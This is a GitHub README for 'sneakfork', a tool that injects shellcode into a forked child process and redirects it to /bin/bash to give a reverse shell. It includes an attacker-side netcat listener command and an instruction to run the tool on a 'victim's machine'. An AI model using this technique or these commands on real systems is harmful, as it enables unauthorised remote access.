 _____________________________________________
![maxresdefault](https://github.com/user-attachments/assets/daa576d5-1917-4e1a-bf65-31bd86f29949)
______________________________________________
# sneakfork
sneakfork is able to change its process memory, registers and change its execution flow.

## Working 
1. sneakfork create a child process with the <code>fork()</code> syscall.
2. rewrite existing bytes of RIP in child with shellcode.
3. redirect its execution flow using <code>execv()</code> towards <code>/bin/bash</code>.

## Testing 
lunch revshell listener at port 4444:
```bash
attacker:$ nc -lnvp 4444 
```
launch sneakfork on victims machine:
```bash
victim:$ ./sneakfork
```
We have currently established a TCP connection to victim machine.

## License
This project is licensed under [MIT](https://github.com/0x00snape/sneakfork/blob/main/LICENSE)

